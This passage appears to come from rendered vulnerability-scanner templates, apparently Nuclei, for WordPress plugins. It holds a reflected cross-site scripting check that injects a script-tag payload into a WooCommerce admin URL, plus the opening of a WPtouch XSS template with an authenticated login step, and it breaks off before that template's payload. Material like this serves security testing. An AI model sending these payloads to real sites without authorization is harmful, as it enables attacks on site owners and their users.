 ### Step - 2

```
GET /wp-admin/admin.php?page=wc-reports&a"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. wc-reports&a\">\<script>alert(1)\</script>">All

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WPtouch \< 4.3.44 - Cross Site Scripting

## Description

- The plugin does not escape some URLs before outputting them back in attributes, leading to Reflected Cross-Site Scripting.

- severity - medium
- tags - wp-plugin,wp,wordpress,xss,authenticated,wptouch,wpscan

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

